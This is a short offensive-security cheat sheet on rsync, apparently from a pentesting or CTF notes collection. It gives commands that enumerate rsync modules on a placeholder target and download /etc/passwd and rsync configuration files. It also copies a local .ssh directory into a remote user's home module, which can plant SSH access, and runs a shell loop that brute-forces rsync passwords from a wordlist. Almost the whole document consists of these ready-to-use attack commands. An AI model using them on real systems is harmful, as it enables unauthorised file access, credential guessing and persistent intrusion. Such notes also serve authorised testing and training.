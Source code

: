 ```yaml
---
title: "rsync"
date: 2025-7-25
tags: ["Rsync", "Password Cracking", "Enumeration"]
---
```


### General

```console
# List directory ('/')
rsync --list-only -a rsync://<TARGET>/
```

```console
# List directory ('/') with ipv6
rsync --list-only -a rsync://[<TARGET_IPV6>]:8730/
```

```console
# List a file
rsync --list-only -a rsync://<TARGET>/etc/passwd
```

```console
# List files (wildcard)
rsync --list-only -a rsync://<TARGET>/etc/rsync*
```

```console
# Get a file
rsync -a rsync://<TARGET>/etc/passwd .
```

```console
# Get files (wildcard)
rsync -a rsync://<TARGET>/etc/rsync* .
```

```console
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD='<PASSWORD>'; rsync -aR .ssh/ rsync://<USER>@<TARGET>/home_user/
```

---

### Bruteforce rsync Password

```console
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@<TARGET>/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```

